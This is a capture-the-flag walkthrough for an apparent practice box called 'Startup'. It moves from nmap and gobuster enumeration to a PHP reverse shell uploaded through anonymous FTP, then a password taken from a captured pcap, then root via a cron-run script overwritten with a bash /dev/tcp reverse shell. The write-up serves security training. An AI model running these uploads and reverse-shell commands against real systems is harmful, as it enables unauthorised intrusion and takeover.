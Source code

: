 Target: 10.10.88.107

## Enumeration:

nmap
```
$ nmap -sC -sV 10.10.88.107

Nmap scan report for 10.10.88.107
Host is up (0.28s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.9.1.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

gobuster
```
$ gobuster dir -u http://10.10.88.107 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt 

/files                (Status: 301) [Size: 312] [--> http://10.10.90.133/files/]
```

checking index

![index](startup1.png)

checking /files

![/files](startup2.png)

### Findings:Looking for attack vectors

FTP can be accessed through Anonymous FTP login and in /files ftp files can be accessed.


## Foothold:

[Payload Link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

preparing the payload > rename to trustme.php5
```
<snip>
$ip = '<ip>';  // CHANGE THIS
$port = 8888;       // CHANGE THIS
<snip>
```

using the Anonymous FTP login upload trustme.php5 
```
$ ftp 10.10.88.107

ftp> cd ftp
250 Directory successfully changed.

ftp> send trustme.php5
local: trustme.php5 remote: trustme.php5
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5491 bytes sent in 0.00 secs (44.7575 MB/s)
```

opening a nc listener on port 8888
```
$ nc -lnvp 8888
```

accessing uploaded file in /files/ftp

![](startup3.png)


```
$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```
$ cat recipe.txt

Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love
```


## Lateral Movement:

upgrading shell
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
```

looking for suspicious file/s
```
www-data@startup:/$ ls -la

<snip>
drwxr-xr-x   2 www-data www-data  4096 Nov 12 04:53 incidents
<snip>

www-data@startup:/$ cd incidents

www-data@startup:/incidents$ ls -l

total 32
-rwxr-xr-x  1 www-data www-data 31224 Nov 12 04:53 suspicious.pcapng
```

getting the file, fire up a http server
```
www-data@startup:/incidents$ python3 -m http.server 8000
```

in kali
```
$ wget http://10.10.88.107:8000/suspicious.pcapng
```

analyzing the pcapng file

username: lennie

password: c4ntg3t3n0ughsp1c3

trying the the credentials
```
www-data@startup:/incidents$ su - lennie
```

upgrading shell
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
```

```
lennie@startup:~$ id

uid=1002(lennie) gid=1002(lennie) groups=1002(lennie)
```

```
lennie@startup:~$ cat user.txt

<redacted>
```


## Priv Escalation:


scanning for crontab
```
lennie@startup:~# pspy64

```

looking for suspicious file/s
```
lennie@startup:~$ ls -la

total 20
drwx------ 4 lennie lennie 4096 Nov 12 04:53 .
drwxr-xr-x 3 root   root   4096 Nov 12 04:53 ..
drwxr-xr-x 2 lennie lennie 4096 Nov 12 04:53 Documents
drwxr-xr-x 2 root   root   4096 Nov 12 04:54 scripts
-rw-r--r-- 1 lennie lennie   38 Nov 12 04:53 user.txt

lennie@startup:~$ cd scripts

lennie@startup:~/scripts$ ls -la
total 16
drwxr-xr-x 2 root   root   4096 Nov 12 04:54 .
drwx------ 4 lennie lennie 4096 Nov 12 04:53 ..
-rwxr-xr-x 1 root   root     77 Nov 12 04:53 planner.sh
-rw-r--r-- 1 root   root      1 Apr 20 16:09 startup_list.txt

lennie@startup:~/scripts$ cat planner.sh

#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

following /etc/print.sh
```
lennie@startup:~/scripts$ cat /etc/print.sh

#!/bin/bash
echo "Done!"

lennie@startup:~/scripts$ ls -la /etc/ | grep 'print.sh'

-rwx------  1 lennie lennie    25 Nov 12 04:53 print.sh
```

writing to print.sh
```
echo -e '#!/bin/bash \nbash -i >& /dev/tcp/10.9.1.128/4242 0>&1' > /etc/print.sh
```

openning another nc listener on port 4242
```
nc -lnvp 4242
```

```
root@startup:~# id

uid=0(root) gid=0(root) groups=0(root)
```

```
root@startup:~# cat root.txt

<redacted>
```
